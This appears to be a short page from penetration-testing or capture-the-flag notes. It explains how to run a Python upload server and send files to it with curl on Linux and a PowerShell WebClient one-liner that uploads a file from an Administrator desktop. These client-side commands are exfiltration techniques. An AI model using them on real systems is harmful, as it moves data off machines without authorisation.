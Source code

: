 # Using Curl to POST data to SimpleHTTPServerWithUpload.py


## Better version of this with Project Discovery's SimpleHTTPServer in Go [here](../../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver)


---
## Caveats
* Insecure communications (HTTP)
    * Choose a server that accepts POST request and makes use of HTTPS
    
## Download
* [SimpleHTTPServerwithUpload_Python3](https://gist.github.com/touilleMan/eb02ea40b93e52604938) from @touilleMan


## Modify listening port
* If you want to change the port that the script is listening to (by default 8000/tcp), use below to replace function "test". (i.e. 1337/tcp)
        
    ```python
    def test(HandlerClass=SimpleHTTPRequestHandler, ServerClass=http.server.HTTPServer):
    server_address = ('', 1337)
    httpd = ServerClass(server_address,HandlerClass)
    httpd.serve_forever()
    ```

## From client-side

Once SimpleHTTPServer is running then: (`#!bash python3 SimpleHTTPServerWithUpload.py`)

* Linux
    ```bash
    curl -F "file=@flag.zip" http://10.1.2.3:8000/
    ```
* Powershell
    ```powershell
    $wc=New-Object System.Net.WebClient;$resp=$wc.UploadFile('http://10.1.2.3:8000',"C:\Users\Administrator\Desktop\flag.zip")
    ```
